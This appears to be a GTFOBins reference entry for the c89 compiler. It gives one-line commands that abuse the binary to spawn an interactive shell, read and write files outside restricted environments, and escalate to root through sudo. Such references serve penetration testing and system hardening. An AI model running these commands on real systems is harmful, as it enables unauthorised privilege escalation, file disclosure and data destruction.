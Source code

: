 # GTFOBin: c89

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
c89 -wrapper /bin/sh,-s .
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
LFILE=file_to_delete
c89 -xc /dev/null -o $LFILE
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
c89 -x c -E "$LFILE"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo c89 -wrapper /bin/sh,-s .
```